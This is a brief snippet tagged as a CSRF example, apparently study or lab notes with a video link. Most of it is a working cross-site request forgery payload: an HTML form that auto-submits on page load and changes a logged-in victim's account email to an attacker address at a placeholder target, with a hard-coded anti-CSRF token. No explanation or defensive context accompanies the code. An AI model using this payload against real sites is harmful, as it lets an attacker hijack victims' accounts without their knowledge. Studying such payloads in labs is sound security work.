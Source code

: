 #csrf

https://www.youtube.com/watch?v=eWEgUcHPle0

```html
<form class="login-form" action="https://[TARGET_IP]/my-account/change-email" method="POST">
    <input hidden required type="email" name="email" value="modified@attacker.hack">
    <input hidden required type=hidden name=anti-csrf-token value=OfqXvkzlX2kAaaXhO9B7Mg0zx8YcEzu2>
</form>
<script>document.forms[0].submit()</script>
```